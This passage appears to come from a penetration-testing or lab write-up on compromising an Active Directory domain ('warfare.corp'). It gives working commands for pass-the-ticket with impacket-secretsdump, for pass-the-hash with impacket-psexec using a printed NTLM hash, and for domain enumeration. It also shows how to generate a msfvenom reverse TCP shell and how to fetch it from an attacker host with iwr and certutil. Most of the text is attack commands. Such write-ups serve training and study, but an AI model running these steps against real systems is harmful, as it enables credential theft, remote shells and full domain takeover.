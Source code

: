 Now set the new Ticket just created to our env variable

```bash
export KRB5CCNAME=corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache
```





## Parent Domain Controller Compromise

We got the CIFS ticket of the Domain Controller as “**corpmngr**”, let’s extract
&#x20;the **Administrator password** using `impacket-secretsdump` tool.

{% code overflow="wrap" %}
```bash
impacket-secretsdump -k -no-pass dc01.warfare.corp -just-dc-user 'warfare\Administrator' -debug
```
{% endcode %}

If it works, we can use the Administrator hash to access through SMB using `impacket-psexec`&#x20;

{% code overflow="wrap" %}
```bash
impacket-psexec -debug 'warfare/Administrator@dc01.warfare.corp' -hashes aad3b435b51404eeaad3b435b51404ee:a2f7b77b62cd97161e18be2ffcfdfd60
```
{% endcode %}

Now we have comprimise the Entire Domain. ;)



## Enumeration Windows Machine

### Information target

```powershell
net user /dom

net group /dom
```



### Create MSFvenom payload to stable shell

To upgrade the shell we can craft a msfvenom payload and execute it in the target machine.

{% code overflow="wrap" %}
```bash
msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=$ATT_IP LPORT=$PORT -f exe -o rev.exe
```
{% endcode %}

Transfer the file to target machine

```bash
# target machine
iwr http://$ATT_IP/rev.exe -OutFile C:\Tmp\rev.exe

certutil -urlcache -f http://IP:PORT/rev.exe rev.exe
```

